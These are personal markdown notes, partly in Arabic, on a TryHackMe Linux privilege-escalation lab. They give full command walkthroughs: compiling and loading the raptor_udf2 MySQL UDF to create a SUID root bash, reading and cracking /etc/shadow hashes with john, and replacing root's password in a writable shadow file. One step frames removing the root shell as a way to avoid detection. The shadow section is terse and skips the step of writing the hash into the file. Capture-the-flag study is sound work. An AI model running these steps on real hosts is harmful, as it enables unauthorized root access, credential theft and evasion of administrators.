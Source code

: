 # Linux PrivEsc

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`
    * (عشان تعمل باسورد لازم ده)

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>




  
</details>































































